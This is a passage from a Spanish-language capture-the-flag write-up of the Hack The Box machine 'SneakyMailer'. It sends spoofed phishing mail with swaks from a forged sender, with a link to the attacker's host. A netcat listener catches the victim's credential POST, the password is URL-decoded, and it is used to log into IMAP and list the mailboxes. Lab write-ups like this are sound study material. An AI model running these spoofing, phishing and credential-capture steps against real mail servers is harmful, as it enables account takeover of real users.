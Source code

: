Es comun que en algunos servicios mail, nos podemos conectar al servidor y enviar email con un correo que no existe bajo el servidor indicado. 
Se puede hacer con la herramienta **swaks**. Aqui lo hacemos por el puerto **25**

```bash
nc -nlvp 80
```

```bash
swaks --to $(cat email.txt | tr '\n' ',') --from "s4vitar@sneakymailer.htb" \
--header "Subject: EEEEEEEE" --body "OH DIOS MIO ES DIAMOND JACKSON -> http://10.10.14.20/diamondjackson.jpg" \
--server 10.10.10.197
```

Ya vemos que podemos enviar el mail y que ademas alguien a pinchado el enlace. Ademas como utilizamos **nc** y no **python**
podemos ver la data enviada en raw. En la data vemos que podemos ver el usuario, el email y su password en formato url encode.

```bash
php --interactive

> print urldecode()"firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt"
```

Ya vemos la contraseña del usuario en texto claro.

Intentamos conectar por **SSH** y **FTP** pero nada

### Conectar por el IMAP con NC {-}

1. Logear por IMAP con NC

    ```bash
    nc 10.10.10.197 143

    A1 login paulbyrd ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
    #Output
    A1 OK LOGIN Ok.
    ```

1. Listar el contenido

    ```bash
    A2 LIST "" "*"
    ```
    
1. Seleccionar INBOX

    ```bash
    A3 SELECT "INBOX"
    ```

1. Seleccionar los mensajes enviados

    ```bash
    A4 SELECT "INBOX.Sent"
    ```
